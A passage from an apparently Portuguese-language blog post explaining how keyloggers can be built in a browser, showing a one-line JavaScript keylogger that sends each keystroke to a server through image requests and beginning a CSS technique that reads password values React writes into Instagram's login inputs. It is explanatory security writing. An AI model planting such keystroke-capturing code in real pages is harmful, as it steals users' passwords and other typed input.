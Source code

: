 ```javascript
addEventListener("keyup",e=>new Image().src="//localhost?"+e.key)
```

Inicialmente, [ele cria um novo 'listener'](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener) de evento, que espera o evento de "[key up](https://developer.mozilla.org/en-US/docs/Web/Events/keyup)", isto é, o evento que é emitido quando o usuário pressiona e depois solta uma tecla. O segundo argumento é a função de *callback*, que contém o código que será executado quando o evento ocorrer.

Nessa função, que recebe um objeto "`e`" como argumento, criamos uma nova 'imagem' e definimos o URL dela para `"//localhost?" + e.key` — se recebemos a tecla "J", o URL será "http://localhost?J". Assim que a 'imagem' é criada pelo JavaScript, o navegador envia uma requisição para o URL para obter a suposta imagem. Com isso, podemos processar a informação enviada quando ela for recebida pelo servidor e, assim, guardá-la em um log.

![Bruh](/images/2018-05-13-9WXL7If.png)

Como tudo, um keylogger em JavaScript tem seus prós e contras. Para um indivíduo mal intencionado, pode não ser muito fácil conseguir que um usuário de interesse execute código JavaScript em uma página de login. Portanto, alguma outra vulnerabilidade, seja ela de infraestrutura ou social, deverá ser abusada para que o código seja executado onde deve. Porém, a vantagem é que, após criado, o keylogger é praticamente perfeito no que faz. Toda e qualquer tecla pressionada será registrada e enviada para o servidor. No caso que veremos a seguir, isso nem sempre acontece.
## Usando CSS – pera, quê?
Intuitivamente, pode-se imaginar que é necessário executar algum código para criar um keylogger — pelo menos eu tinha essa ideia até não muito tempo atrás. Mas isso não necessariamente é verdade! Algumas linguagens, como CSS e SVG, não são exatamente consideradas programação por não serem [Turing-Complete](https://stackoverflow.com/a/37247136/4824627). Ainda assim, podemos abusar algumas features delas para alcançar nosso objetivo.

Para fazer um keylogger com CSS, usaremos um efeito colateral de alguns frameworks e bibliotecas de JavaScript, como o React. Mas, antes disso, darei uma mini-aula de input de usuário em HTML:

Normalmente, quando se tem um elemento em HTML do tipo "`<input>`" (em que o usuário pode inserir conteúdo em texto), o programador pode adicionar um atributo "*value*" que define um valor padrão, que já vai estar escrito no input quando o site carregar. Quando o usuário insere algum texto no input, o conteúdo definido no atributo "*value*" não é atualizado, e simplesmente para de ser usado.

Voltando ao React: o site do Instagram usa React por trás dos panos. Isso faz com que o atributo "*value*" seja [atualizado a cada caractere inserido](https://reactjs.org/docs/forms.html#controlled-components) pelo usuário! E, novamente, isso vale tanto para o campo de username, quanto para o campo de senha! Aqui vai uma screenshot:

![Bruh](/images/2018-05-13-HvAUUAN.png)

O CSS não é poderoso o suficiente para capturar o evento de teclas sendo pressionadas. Contudo, ele consegue ver os atributos de HTML e seus conteúdos! Então, se quisermos, por exemplo, colorir todos os inputs que contém um "*value*" de "banana", podemos fazer:

```css
input[value="banana"] {
    color: red;
}
```
